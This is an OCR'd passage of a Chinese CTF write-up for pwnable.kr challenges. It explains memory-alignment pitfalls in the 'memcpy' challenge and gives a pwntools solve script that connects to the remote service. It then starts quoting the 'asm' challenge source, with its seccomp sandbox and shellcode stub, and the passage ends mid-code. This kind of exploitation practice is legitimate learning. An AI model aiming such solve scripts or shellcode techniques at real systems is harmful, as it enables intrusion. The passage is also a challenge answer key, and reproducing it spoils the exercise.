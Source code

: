 要点:

- `fast_memcpy`函数中用于内存复制的两个指令`movdqa`和`movntps`他们的操作数如果是内存地址的话，那么这个地址必须是16字节对齐的，否则会产生一般保护性异常导致程序退出。
- `malloc`在分配内存时它实际上还会多分配4字节用于存储堆块信息，所以如果分配a字节实际上分配的是`a+4`字节。另外32位系统上该函数分配的内存是以8字节对齐的。

解题思路:

每次分配的内存地址能够被16整除就可以了（实际上由于`malloc`函数分配的内存8字节对齐，只要内存大小除以16的余数大于9就可以了）。

```
#-*- coding:utf8
from pwn import *

io = remote("pwnable.kr", 9022)
context.log_level = "debug"
for i in range(10):
    io.recvuntil(":")
    data = (2 ** (i + 4) / 16 - 1) * 16 + 9
    io.sendline(str(data))

io.interactive()
```

## asm

```c
#include <stdio.h>
#include <string.h>
#include <stdlib.h>
#include <sys/mman.h>
#include <seccomp.h>
#include <sys/prctl.h>
#include <fcntl.h>
#include <unistd.h>

#define LENGTH 128

void sandbox(){
	scmp_filter_ctx ctx = seccomp_init(SCMP_ACT_KILL);
	if (ctx == NULL) {
		printf("seccomp error\n");
		exit(0);
	}

	seccomp_rule_add(ctx, SCMP_ACT_ALLOW, SCMP_SYS(open), 0);
	seccomp_rule_add(ctx, SCMP_ACT_ALLOW, SCMP_SYS(read), 0);
	seccomp_rule_add(ctx, SCMP_ACT_ALLOW, SCMP_SYS(write), 0);
	seccomp_rule_add(ctx, SCMP_ACT_ALLOW, SCMP_SYS(exit), 0);
	seccomp_rule_add(ctx, SCMP_ACT_ALLOW, SCMP_SYS(exit_group), 0);

	if (seccomp_load(ctx) < 0){
		seccomp_release(ctx);
		printf("seccomp error\n");
		exit(0);
	}
	seccomp_release(ctx);
}

char stub[] = "\x48\x31\xc0\x48\x31\xdb\x48\x31\xc9\x48\x31\xd2\x48\x31\xf6\x48\x31\xff\x48\x31\xed\x4d\x31\xc0\x4d\x31\xc9\x4d\x31\xd2\x4d\x31\xdb\x4d\x31\xe4\x4d\x31\xed\x4d\x31\xf6\x4d\x31\xff";
unsigned char filter[256];
int main(int argc, char* argv[]){

	setvbuf(stdout, 0, _IONBF, 0);
	setvbuf(stdin, 0, _IOLBF, 0);

```